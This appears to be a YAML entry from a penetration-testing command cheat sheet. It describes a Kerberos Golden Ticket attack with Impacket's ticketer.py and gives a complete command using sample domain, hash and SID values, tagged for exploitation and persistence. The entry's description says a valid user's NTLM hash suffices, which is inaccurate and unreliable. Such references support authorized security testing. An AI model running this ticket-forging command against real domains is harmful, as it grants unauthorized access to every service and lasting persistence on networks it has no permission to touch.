 ```yaml
---
description: |
  Impacket's ticketer.py can perform Golden Ticket attacks, which crafts a valid TGT ticket using a valid user's NTLM hash. It is then possible to access any service using the TGT by requesting a TGS for that service.

  Command Reference:

  	Target IP: 10.10.10.1

  	Domain: test.local

  	Username: john

  	Hash: b18b4b218eccad1c223306ea1916885f

  	Domain SID: S-1-5-21-1339291983-1349129144-367733775

command: |
  python3 ticketer.py -nthash b18b4b218eccad1c223306ea1916885f -domain-sid S-1-5-21-1339291983-1349129144-367733775 -domain test.local -dc-ip 10.10.10.1 john
items:
  - Username
  - Hash
services:
  - Kerberos
OS:
  - Linux
  - Windows
attack_types:
  - Exploitation
  - Persistence
references:
  - https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketer.py
  - https://www.tarlogic.com/en/blog/how-to-attack-kerberos/
---
```

